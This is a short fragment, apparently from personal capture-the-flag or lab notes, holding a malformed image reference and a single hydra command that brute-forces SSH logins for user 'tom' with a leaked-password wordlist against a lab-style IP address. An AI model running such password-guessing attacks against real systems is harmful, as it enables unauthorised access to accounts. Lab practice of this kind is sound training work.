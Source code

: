 - `hydra -l tom -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-60.txt 10.129.64.82 ssh -t 4 -I`
![[Pasted image 20240828170837.png]]
